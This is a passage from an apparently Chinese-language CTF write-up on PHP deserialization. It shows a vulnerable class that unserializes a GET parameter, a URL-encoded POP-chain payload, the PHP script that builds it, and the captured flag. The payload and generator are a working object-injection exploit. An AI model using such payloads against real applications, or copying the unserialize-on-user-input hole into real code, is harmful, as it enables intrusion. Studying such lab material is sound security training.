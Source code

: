 ```php
    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
?>
```

构造 payload：

```text
O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Br%3A1%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A13%3A%22%00Modifier%00var%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D%7D
```

```php
<?php
class Modifier {
    private $var = "flag.php";
}

class Show{
    public $source;
    public $str;
}

class Test{
    public $p;
}

$show = new Show();
$test = new Test();
$modifier = new Modifier();
$show->source = $show;
$show->str = $test;
$test->p = $modifier;


echo urlencode(serialize($show));
```

运行结果：

```text
ctfstu{5c202c62-7567-4fa0-a370-134fe9d16ce7}
```

## 九、字符串逃逸
